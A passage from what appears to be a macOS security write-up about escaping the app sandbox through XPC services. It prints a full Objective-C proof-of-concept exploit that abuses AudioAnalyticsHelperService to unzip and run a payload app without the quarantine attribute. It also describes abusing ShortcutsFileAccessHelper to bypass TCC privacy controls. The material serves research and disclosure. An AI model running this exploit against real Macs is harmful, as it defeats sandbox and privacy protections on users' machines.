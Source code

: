 Therefore, it's possible to generate a fake app folder structure, compress it, then decompress and execute it to escape the sandbox as the new files won't have the quarantine attribute.

The exploit was:

```objectivec
@protocol AudioAnalyticsHelperServiceProtocol
-(void)pruneZips:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
-(void)createZipAtPath:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
@end
void exploit_AudioAnalyticsHelperService(void) {
    NSString *currentPath = NSTemporaryDirectory();
    chdir([currentPath UTF8String]);
    NSLog(@"======== preparing payload at the current path:%@", currentPath);
    system("mkdir -p compressed/poc.app/Contents/MacOS; touch 1.json");
    [@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:@"compressed/poc.app/Contents/MacOS/poc" atomically:YES encoding:NSUTF8StringEncoding error:0];
    system("chmod +x compressed/poc.app/Contents/MacOS/poc");
    
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/AudioAnalyticsInternal.framework"] load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.internal.audioanalytics.helper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(AudioAnalyticsHelperServiceProtocol)];
    [conn resume];
    
    [[conn remoteObjectProxy] createZipAtPath:currentPath hourThreshold:0 withReply:^(id *error){
        NSDirectoryEnumerator *dirEnum = [[[NSFileManager alloc] init] enumeratorAtPath:currentPath];
        NSString *file;
        while ((file = [dirEnum nextObject])) {
            if ([[file pathExtension] isEqualToString: @"zip"]) {
                // open the zip
                NSString *cmd = [@"open " stringByAppendingString:file];
                system([cmd UTF8String]);

                sleep(3); // wait for decompression and then open the payload (poc.app)
                NSString *cmd2 = [NSString stringWithFormat:@"open /Users/%@/Downloads/%@/poc.app", NSUserName(), [file stringByDeletingPathExtension]];
                system([cmd2 UTF8String]);
                break;
            }
        }
    }];
}
```

#### /System/Library/PrivateFrameworks/WorkflowKit.framework/XPCServices/ShortcutsFileAccessHelper.xpc

This XPC service allows to give read and write access to an arbitarry URL to the XPC client via the method `extendAccessToURL:completion:` which accepted any connection. As the XPC service has FDA, it's possible to abuse these permissions to bypass TCC completely.
